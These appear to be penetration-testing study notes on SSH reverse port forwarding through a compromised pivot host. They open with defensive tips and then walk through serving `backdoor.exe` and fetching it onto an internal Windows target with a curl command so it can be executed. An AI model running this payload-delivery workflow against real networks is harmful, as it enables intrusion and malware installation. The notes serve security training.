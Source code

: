 **Security Tips**:
- Restrict SSH access on pivot hosts (e.g., limit to specific IPs, use key-based auth).
- Monitor for unusual SSH connections or SOCKS proxy traffic.
- Block unnecessary internal network access from pivot hosts.
- Enforce strong firewall rules to limit service exposure (e.g., MySQL, HTTP).

### Notes on Remote/Reverse Port Forwarding with SSH

**Overview**:
- Focuses on SSH remote/reverse port forwarding, enabling a local service on the attacker's machine to be accessed from a remote pivot host or its network, useful for scenarios where direct access to the attacker's machine is restricted.

**1. Remote/Reverse Port Forwarding**:
- **Definition**: Forwards a port on the pivot host (or a host in its network) to a service running on the attacker's local machine.
- **Use Case**: Allows a target (e.g., Windows host in the pivot host’s network) to access a service (e.g., a malicious payload) hosted on the attacker's machine via the pivot host.
- **Command**:
  - `ssh -R <remote_port>:localhost:<local_port> user@<pivot_host>`
  - Example: `ssh -R 8123:localhost:8123 ubuntu@<pivot_ip>`
    - Maps port 8123 on the pivot host to port 8123 on the attacker's machine.
- **Key Insight**: Reverse forwarding exposes a local service (e.g., a web server hosting a payload) to the pivot host or its network, facilitating attacks like payload delivery.

**2. Scenario Example**:
- **Attack Host**: Running a local service (e.g., Python web server on port 8123 hosting a payload).
- **Pivot Host**: Ubuntu server (e.g., 10.129.282.64) with SSH access.
- **Target**: Windows host in the pivot’s internal network (e.g., 172.16.5.10).
- **Goal**: Deliver a payload (e.g., `backdoor.exe`) from the attacker's machine to the Windows target via the pivot host.

**3. Steps to Execute Reverse Port Forwarding**:
- **Step 1: Start a Web Server on Attack Host**:
  - Command: `python3 -m http.server 8123`
  - Hosts payload (e.g., `backdoor.exe`) on `localhost:8123`.
- **Step 2: Set Up Reverse Port Forwarding**:
  - Command: `ssh -R 8123:localhost:8123 ubuntu@<pivot_ip>`
  - Exposes attacker’s web server (port 8123) on pivot host’s port 8123.
- **Step 3: Download Payload on Windows Target**:
  - On Windows target (e.g., 172.16.5.10):
    - Use a browser or command (e.g., `curl http://<pivot_ip>:8123/backdoor.exe -o backdoor.exe`) to download the payload from the pivot host’s port 8123.
- **Step 4: Verify Connection**:
  - On the Windows target, use `netstat` to confirm the connection to the pivot host’s port 8123 (indicating SSH service involvement).
- **Key Insight**: The pivot host acts as a relay, making the attacker’s local service accessible to internal network hosts.

**4. Practical Application**:
- **Payload Delivery**: Host a malicious executable or script on the attacker's machine and use reverse forwarding to make it downloadable from the pivot host.
- **Network Restrictions**: Useful when the target cannot directly reach the attacker's machine (e.g., due to NAT or firewall rules).
- **Example Workflow**:
  - Compromise Ubuntu pivot host via SSH.
  - Identify internal network (e.g., 172.16.5.0/23) using `ifconfig` on pivot host.
  - Set up reverse forwarding to expose a web server.
  - Instruct the Windows target to download and execute the payload.
